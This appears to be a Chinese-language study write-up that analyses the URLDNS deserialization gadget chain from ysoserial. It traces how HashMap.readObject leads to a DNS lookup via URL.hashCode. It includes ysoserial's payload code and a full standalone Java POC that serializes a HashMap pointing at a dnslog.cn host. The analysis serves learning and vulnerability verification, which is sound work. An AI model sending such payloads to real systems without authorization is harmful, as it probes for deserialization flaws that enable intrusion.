








# About URLDNS

URLDNS 适用环境：

- 不依赖第三方库

- 对无回显反序列化处通过 DNS 请求验证反序列化


执行效果：

不执行命令，只发起一次 DNS 请求




大致浏览其功能后归纳出以下几个问题：

1. URLDNS 是怎么发起 DNS 请求的
2. 为什么能在一个反序列化利用点发起攻击，ysoserial 是怎么做的
3. 这种攻击和之前学的反序列化的重写 readObject 有什么区别


下面进入分析流程

# URLDNS POC Analyse

## Code

ysoserial 给的利用链如下

```java
 *   Gadget Chain:
 *     HashMap.readObject()
 *       HashMap.putVal()
 *         HashMap.hash()
 *           URL.hashCode()
```

ysoserial Code：

```java
public class URLDNS implements ObjectPayload<Object> {
        public Object getObject(final String url) throws Exception {
                URLStreamHandler handler = new SilentURLStreamHandler();
                HashMap ht = new HashMap(); 
                URL u = new URL(null, url, handler);
                ht.put(u, url); 
                Reflections.setFieldValue(u, "hashCode", -1); 
                return ht;
        }
```

由于 ysoserial 除了核心利用代码之外涉及很多 ysoserial 工具本身的东西。因此把代码扣出来调试。

这里引用 @啦啦0咯咯 师傅文中代码

```java
package ysoserial;

import java.io.FileInputStream;
import java.io.FileOutputStream;
import java.io.ObjectInputStream;
import java.io.ObjectOutputStream;
import java.lang.reflect.Field;
import java.net.URL;
import java.util.HashMap;

public class URLDNS {
    public static void main(String[] args) throws Exception {
        // 创建一个键的类型为 URL， 值的类型为 String 的 hashMap
        HashMap<URL, String> hashMap = new HashMap<URL, String>();
        // 上面泛型规定了键的类型，创建一个 URL 类
        URL url = new URL("http://3n5nmt.dnslog.cn");
        // hashCode是private修饰，因此反射调用 URL 类的成员变量
        Field f = Class.forName("java.net.URL").getDeclaredField("hashCode");
        // 修改权限
        f.setAccessible(true);
        // 0xdeadbeef 随便设置
        f.set(url, 0xdeadbeef);
        // URLDNS 随便设置
        hashMap.put(url, "URLDNS");
        f.set(url, -1);
        ObjectOutputStream oos = new ObjectOutputStream(new FileOutputStream("out.bin"));
        oos.writeObject(hashMap);
        ObjectInputStream ois = new ObjectInputStream(new FileInputStream("out.bin"));
        ois.readObject();
    }
}
```


## Analyse -DNS

首先回顾这个 POC 的功能 —— 发起 DNS 请求

那么纵观代码可以发现的是除了 `ois.readObject();` 之外没有其他的敏感操作了。

思考一下 Java 反序列化漏洞的核心我们不难得知，这段代码一定重写了 `readObject`。那么向上追溯是哪里重写了  `readObject` 呢？

`java.util.HashMap#readObject`  中 `putVal(hash(key), key, value, false, false);` 

- 这里主要关注 `(hash(key)`



`java.util.HashMap#hash`

- 操作意义具体看：https://www.zhihu.com/question/20733617
- 主要跟进 `key.hashCode()`



`java.net.URL#hashCode`

- 这里对 `hashCode` 有一个判断，要为 -1 才能去触发下面的语句
- 后续进入 `handler.hashCode() `, `handler` 来源于  `transient URLStreamHandler handler;` 



`java.net.URLStreamHandler#hashCode`

- 这里触发关键的方法 `getHostAddress`



`java.net.URLStreamHandler#getHostAddress`

- 这⾥ `InetAddress.getByName(host)` 的作⽤是根据主机名，获取其IP地址。所以变相等于了DNS查询



后面为更深的调用栈


## Analyse - hashcode

这里主要分析 POC 这段代码

```java
f.set(url, 0xdeadbeef);
hashMap.put(url, "URLDNS");
f.set(url, -1);
```

核心是一个 `hashCode` 在不同场景下值的问题

控制变量法：先把 `f.set(url, 0xdeadbeef);` 删除

```java
// URLDNS POC
public class URLDNS {
    ···
        hashMap.put(url, "URLDNS");

/*
** java.util.HashMap#put
** 这里关注下面的代码
*/
public V put(K key, V value) {
    return putVal(hash(key), key, value, false, true);
}


/*
** java.util.HashMap#hash
** 这里关注下面的代码
** 可见到了之前分析触发 DNS 的代码
*/
static final int hash(Object key) {
    int h;
    return (key == null) ? 0 : (h = key.hashCode()) ^ (h >>> 16);
}

/*
** java.util.HashMap#hash
** 这里 hashCode 为 -1，会触发后续的调用
*/
public synchronized int hashCode() {
    if (hashCode != -1)
        return hashCode;

    hashCode = handler.hashCode(this);
    return hashCode;
}

/*
** java.net.URLStreamHandler#hashCode
** 这里 hashCode 为 -1，会触发后续的调用
*/
protected int hashCode(URL u) {
    ···
    // Generate the host part.
    InetAddress addr = getHostAddress(u);

/*
** java.net.URLStreamHandler#getHostAddress
** 这里触发 DNS 请求 ！ 但注意！！！ 这里仅仅是在构造的时候触发的 DNS 请求
** 并非反序列化过程中触发！并非反序列化过程中触发！并非反序列化过程中触发！
*/
protected synchronized InetAddress getHostAddress(URL u) {
    ···
            u.hostAddress = InetAddress.getByName(host);

```

经过上面的分析我们知道 `f.set(url, 0xdeadbeef);` 的作用就是避免在生成 POC 的时候触发额外的 DNS 请求，影响我们对反序列化漏洞验证的判断

以我刚刚的例子为例，先看一下此时的 hashCode



接着我们刚刚的分析，再进行控制变量法：把 `f.set(url, -1);` 删除

直接跳到关键地方，可以看到这里并不为 `-1` 因此不会进入后续触发 DNS 请求的语句



因此我们得出结论：`f.set(url, -1);` 的关键作用是控制 `hashCode` 为 `-1` ，从而触发后续 DNS 请求


## Analyse - ysoserial POC

ysoserial 中相比于之前单纯的 POC，利用了一个独特的对象

```java
URLStreamHandler handler = new SilentURLStreamHandler();
```

跟进 `ysoserial.payloads.URLDNS.SilentURLStreamHandler`

```java
static class SilentURLStreamHandler extends URLStreamHandler {

  protected URLConnection openConnection(URL u) throws IOException {
    return null;
  }

  protected synchronized InetAddress getHostAddress(URL u) {
    return null;
  }
}
}
```

通过重写 `getHostAddress` 的方式去避免在生成 POC 的时候发出 DNS 请求


# Reference 

https://www.anquanke.com/post/id/201762

https://payloads.info

https://mp.weixin.qq.com/s/MiBpBHRUkJbEwTcERgEx5w

